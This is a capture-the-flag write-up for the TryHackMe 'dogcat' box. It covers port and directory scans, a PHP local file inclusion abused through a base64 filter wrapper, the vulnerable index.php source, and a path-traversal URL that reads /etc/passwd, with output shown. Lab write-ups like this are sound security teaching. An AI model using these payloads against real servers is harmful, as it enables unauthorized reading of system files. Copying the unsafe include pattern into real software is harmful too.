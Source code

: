 # 'dogcat' box writeup
## dogcat is a CTF box created by jammy and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [LFI using wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)

# ![bg](images/background.png?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.23.37``

+ **We observe 2 open ports, ssh and an http, the last one with an Apache service**

# ![h](images/nmapp.jpg?raw=true "dog")

+ **Taking a look inside the web page, we can see a gallery made of dog and cats; pressing one of the buttons, an image shows up and we can observe the [view] parameter inside our URL**

# ![h](images/webpage.png?raw=true "dog")

**I've tried out some LFI from this position but with no success. So i changed the query string, adding some text inside**

# ![h](images/triedo2.jpg?raw=true "dog")

**It looks that the LFI vuln is present, but in a different form. The php script seems to include the page that we insert into the [view] parameter, openning a stream. But, the ``/etc/passwd`` that we inserted now has another extension: a ``.php``one. Also, the strings needs to contains another substring inside: ``cat``. If we're not using this string, we have no output from our request**


+ **Now, let's try a gobuster scan to see what php files we can find so maybe we can read them**

``gobuster dir -u http://10.10.23.37/ -w /usr/share/wordlists/dirb/common.txt -x php``

# ![h](images/gobusto.jpg?raw=true "dog")

+ **Now we know that there's index.php and flag.php files inside our directory. Now, reading some of the LFI techniques, we can spot a PHP wrapper way: we are going to try to use a base64 encoding type to convert the content of the php index file and finally to read it. We must keep in mind the fact that the ``cat`` substring need to be inside our main string. Let's apply the filter over our [view] parameter**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=index``

# ![h](images/index.jpg?raw=true "dog")

+ **Here we have the content of index.php page, encoded with base64. Let's decode it and look into our page source code, where we can see some interesting php code**

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

+ **Let's understand this php code to see what's happening behind:** 
We have a **containsStr** function which returns the first occurence of a substring in a string; it's like the C **strstr** function.

Another thing it's that **$ext** variable which will be checked inside the URL parameter: if **$ext** exists, the URL file's extension will be used, else there will be set a *php* extension. We saw before that every string that we insert will end by having a *php* extension.

Then, the script checks if the view parameter is not NUL and checks if the query string contains the cat or dog substrings. If this happens, we get the inclusion and simultanously the extension is set with our **$ext**. 

So, we need to insert a **$ext** variable inside our view parameter, but without some value so we can read any file on the system

+ **We can read our first flag1 using the same wrapper, which outputs the flag php page now, encoded with the same base64**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=flag``

+ **Let's move on and try to read the /etc/passwd file. I included the $ext value in the URL too**

``http://10.10.23.37/?view=php://filter/convert.base64-encode/cat/resource=../../../../etc/passwd&ext=``

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
